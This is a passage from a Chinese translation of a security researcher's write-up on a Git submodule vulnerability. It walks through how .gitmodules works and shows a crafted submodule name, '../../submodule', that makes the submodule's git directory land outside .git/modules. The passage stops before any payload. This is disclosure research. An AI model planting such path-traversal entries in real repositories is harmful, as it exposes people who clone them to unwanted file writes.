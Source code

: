将会创建如下文件：<br>
（1）mysubmodule/：将要复制的子模块的仓库路径；<br>
（2）.gitmodules：包含有关子模块的初始化信息（如果该文件不存在，将会自动创建）；<br>
（3）$GIT_DIR/modules/mysubmodule：该文件夹包含子模块的Git目录（与我们已知的.git目录相同）；<br>
（4）$GIT_DIR/config：修改后的.git/config文件，其中包含对所有子模块的引用。<br>
将子模块添加到仓库，并将更改推送到远程设备之后，我们可能会注意到子模块的内容实际上没有添加到远程设备之中。在.gitmodules文件中包含了有关子模块的信息，这些信息将会用于对仓库中任何复制的子模块进行初始化。<br>[![](https://staaldraad.github.io/assets/git-submodule-repo.png)](https://staaldraad.github.io/assets/git-submodule-repo.png)<br>
为了在本地复制的仓库中对子模块进行初始化，我们需要在复制过程中使用以下命令来进行指定：

```
git clone --recurse-submodules https://github.com/staaldraad/repository.git
```

或者也可以在现有的仓库中，执行以下操作：

```
git submodule update --init
```

.gitmodules文件在子模块中将起到重要的作用，并且该文件是在我们的控制之下。仔细研究.gitmodules文件，我们会发现如下内容：

```
[submodule "mysubmodule"]
        path = mysubmodule
        url = https://github.com/staaldraad/repository.git
```

而就是在这里，我有一丝不寻常的预感，并且开始寻找漏洞。



## 三、漏洞发现过程

### <a class="reference-link" name="3.1%20%E5%88%9D%E6%AD%A5%E5%B0%9D%E8%AF%95"></a>3.1 初步尝试

通过查看.gitmodules文件，我们注意到其中出现了两次mysubmodule，一次是在子模块名称中，另一次是在路径之中。而默认情况下，除非使用了—name参数指定名称，否则子模块名称和子模块路径会是相同的。此外，我们还注意到，子模块名称将用于为子模块创建.git目录，这一目录的路径最终为$GIT_DIR/modules/mysubmodule。在这里，我不禁产生了疑问，如果子模块名称就是一个路径呢？为了验证我是否可以操纵所使用的文件路径，我对.gitmodules文件中的子模块名称进行了修改。<br>
修改后的.gitmodules文件如下：

```
[submodule "../../submodule"]
        path = mysubmodule
        url = https://github.com/staaldraad/repository.git
```

我提交了修改，并完成了复制目录这一过程。由于我修改了子模块名称，直接导致子模块仓库在主仓库中被创建，而不是在其所属的.git/modules中创建。

```
git clone --recurse-submodules https://github.com/staaldraad/repository.git
&lt;snip&gt;...&lt;/snip&gt;

cd repository

ls -l 
drwxrwxr-x. 2 staaldraad staaldraad    40 May  3 13:26 submodule
-rw-rw-r--. 1 staaldraad staaldraad     3 May  3 13:26 README.md
drwxrwxr-x. 2 staaldraad staaldraad    40 May  3 13:26 mysubmodule

ls -l submodule                                                                                                             
total 28
drwxrwxr-x. 2 staaldraad staaldraad    40 May  3 13:26 branches
-rw-rw-r--. 1 staaldraad staaldraad   293 May  3 13:26 config
-rw-rw-r--. 1 staaldraad staaldraad    73 May  3 13:26 description
-rw-rw-r--. 1 staaldraad staaldraad    41 May  3 13:26 HEAD
drwxrwxr-x. 2 staaldraad staaldraad   240 May  3 13:26 hooks
-rw-rw-r--. 1 staaldraad staaldraad 11120 May  3 13:26 index
```